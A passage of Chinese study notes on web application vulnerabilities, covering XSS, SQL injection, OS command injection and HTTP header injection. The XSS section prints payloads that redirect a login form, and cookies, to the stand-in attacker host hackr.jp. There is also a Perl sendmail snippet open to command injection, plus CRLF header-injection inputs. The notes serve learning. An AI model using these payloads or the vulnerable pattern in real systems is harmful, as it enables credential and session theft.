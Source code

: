         4. web应用成为攻击者的跳板，导致用户的cookie个人信息被窃取，登录状态的用户权限被恶意滥用
        5. ![](https://github.com/bearnew/picture/blob/master/mardown/2018-12-20%20http%E8%AF%BB%E5%90%8E%E6%84%9F/%E8%A2%AB%E5%8A%A8%E6%94%BB%E5%87%BB.png?raw=true)
4. 输出值转义不完全引发的安全漏洞
    1. 客户端的验证并不能作为安全防范对策，只能起到尽早辨识错误，提高UI体验的作用
    2. 跨站脚本攻击（XSS）
        1. 对用户登陆信息进行获取
        ```js
        // 用户点击此url到网页，在表单内输入ID和密码后，直接发送给了攻击者的网站
        "http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s=""
        ```
        ```html
        <div class="logo">
            <img src="/img/logo.gif" alt="E! 拍卖会" />
            </div>
            <form action="http://example.jp/login" method="post" id="login">
            <div class="input_id">
            ID <input type="text" name="ID" value="yama" />
        </div>
        ```
        2. 对用户的cookie进行窃取攻击
        ```html
        <script src=http://hackr.jp/xss.js></script>
        ```
        ```js
        // 访问web域名下的cookie信息，然后将信息发送给攻击者的网站（http://hackr.jp/?），记录到了攻击者的日志中
        var content = escape(document.cookie);
        document.write("<img src=http://hackr.jp/?");
        document.write(content);
        document.write(">");
        ```
    3. SQL注入攻击
        * 使用SQL语句作为查询条件，请求HTTP服务器，执行数据库操作，导致数据库信息被非法浏览或者篡改
    4. OS命令注入攻击
        * 通过web应用，执行非法的操作系统命令达到攻击的目的
        ```shell
        my $adr = $q->param('mailaddress');
        open(MAIL, "| /usr/sbin/sendmail $adr");
        print MAIL "From: info@example.com\n";
        ```
    5. HTTP首部注入攻击
        1. 通过在某些响应首部字段需要处理输出值的地方，插入换行发动攻击
        2. 设置任意cookie
            * 输入 101%0D%0ASet-Cookie:+SID=123456789
            * 响应 
                Location: http://example.com/?cat=101（%0D%0A ：换行符）
                Set-Cookie: SID=123456789
        4. 重定向至任意url
            * HTTP首部注入Location: http://example.com/?cat=101。令浏览器发生重定向跳转 
        5. 显示任意的主体（HTTP响应截断攻击）
            ```js
            Set-Cookie: UID=（%0D%0A ：换行符）
            （%0D%0A ：换行符）
            <HTML><HEAD><TITLE>之后，想要显示的网页内容 <!--（原来页面对应的首部字
            ```  
    6. 邮件首部注入攻击
    7. 目录遍历攻击
    8. 远程文件包含漏洞
5. 因设置或设计上的缺陷，引发的安全漏洞
    1. 强制浏览
        * 根据文件名，推断出文件目录地址，查看其他文件的隐私信息